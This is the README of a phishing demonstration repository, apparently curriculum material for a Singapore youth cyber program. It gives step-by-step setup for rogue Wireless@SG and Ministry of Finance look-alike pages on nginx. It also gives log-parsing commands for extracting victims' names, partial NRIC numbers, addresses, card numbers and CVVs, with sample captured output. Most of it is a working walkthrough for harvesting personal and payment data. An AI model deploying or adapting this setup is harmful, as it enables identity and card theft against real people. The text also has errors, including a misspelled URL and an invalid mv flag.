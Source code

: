 # CDT_phishing_m3

THIS RESPOSITORY IS PRIVATE AND IS NOT TO BE SHAED WITH ANYONE OTHER THAN
CYBER YOUTH SINGAPORE AND ITS CURRICULUM DEVELOPMENT TEAM, UNLESS OTHERWISE
STATED.

## PREREQUISITE

#### In this section, I will be explaining what are the required packages bbefore we start the installation.
1. Ubuntu 18.04 and above
> https://ubuntu.com/download/desktop

2. nginx web server package
> apt install nginx

3. git package
> apt install git

## INSTALLATION

#### In this section, I will be explaining how to put the files into your web server and ensure it loads.

1. Clone the git respository into your web server.
> git clone https://github.com/conan97zhang/CDT_phishing_m3.git

2. Move the CDT_phishing_m3 folder into your nginx web server's root directory and rename it into m3.
> mv -r CDT_phishing_m3 /var/www/html/m3

3. Associate the domain name hotspot.wireless with out localhost ip address.
> nano /etc/hosts

3.1 Amend the following line from

>> 127.0.0.1    localhost

TO

>> 127.0.0.1    hotspot.wireless

4. Start nginx web server

> service nginx start

## EXECUTION

#### In this section, I will be explaining how will the frontend (victim's browser) sends the data to the backend (attacker's server) seamlessly.

1. Load the website on your browser.

> http://hostspot.wireless

2. Start capturing the user inputs by opening 2 different terminals.

##### 2.1 Terminal 1
> tail -f /var/log/nginx/access.log | awk '/NRIC/ {print "\n" "Entry " NR " | " $1 $2 $4 $5 " - WIFI HOTSPOT""\n" "\n"  $7}'

##### 2.2 Terminal 2
> tail -f /var/log/nginx/access.log | awk '/REF/ {print "\n" "Entry " NR " | " $1 $2 $4 $5 " - MOF""\n" "\n"  $7}'

3. Go through all the steps in entering the details (VERY SIMPLE!!!)

## SAMPLE OUTPUT (END OF DEMO).

#### In the last section, we will be analysing the sample data output from Terminal 1 and Terminal 2 ( REFER TO EXECUTION(2) )

##### 1. Terminal 1 ( EXECUTION(2)(1) )

The data presented in this output is the input from the rogue Wireless@SG website.

> Entry 4 | 172.32.0.100-[25/Jul/2020:15:14:57+0800] - WIFI HOTSPOT
> 
> /detected.html?title=Title&input=Mr&name=Full+Name&input=John&NRIC=Last+4+digits+of+NRIC&input=345D&postal+code=Postal+Code&input=123456&address=Address&input=123+Tamp+f

From the above data, we can safely deduce the following imformation:
> Title: Mr
> Full Name: John
> Last 4 digits of NRIC: 345D
> Poster Code: 123456
> Address: 123 Tamp f

##### 2. Terminal 2 ( EXECUTION(2)(2) )
 
The data presented in this output is the input from the rogue Ministry of Finance website. 
 
> Entry 3 | 172.32.0.100-[25/Jul/2020:15:13:21+0800] - WIFI HOTSPOT
>
> /MOF%20|%20Seek%20Permission%20Form_files/FormFEDYA.html?REF=2020_SPF_MOF&CARD=99999999999999999&CVV=999&EXP=99%2F99

From the above data, we can safely deduce the following imformation:
> Card Number: 99999999999999999
> CVV: 999
> Exp Date: 99/99

> Entry 3 | 172.32.0.100-[25/Jul/2020:15:13:21+0800] - WIFI HOTSPOT
>
> /MOF%20|%20Seek%20Permission%20Form_files/FormFEDYA.html?REF=2020_SPF_MOF&CARD=99999999999999999&CVV=999&EXP=99%2F99

#### NOTE: TO ENSURE THE CORROSPONDING VICTIM FROM TERMINAL 1 AND TERMINAL2 DATA, ALWAYS CHECK THE TIME AND DATE OF INPUT.

# CREDIT AND SUPPORT

#### ZHANG TIANCI CONAN
#### TELEGRAM: https://t.me/conan97zhang
#### INSTAGRAM: https://instagram.com/conan97zhang
